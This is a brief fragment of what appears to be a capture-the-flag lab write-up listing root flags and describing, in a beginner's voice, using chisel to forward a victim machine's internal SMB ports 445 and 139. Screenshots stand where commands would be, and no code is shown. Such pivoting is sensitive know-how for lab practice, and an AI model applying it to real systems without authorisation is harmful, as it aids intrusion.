root flag: CyberLens, WorkSmarter, SteelMountain



**chisel**

I dont have much experience with portforwarding yet, I just saw a write up that did this so I did it too for practice, we are able to see that the victim machine is listening internally for port 445 and 139... using chisel we can forward the port so we can have access to it







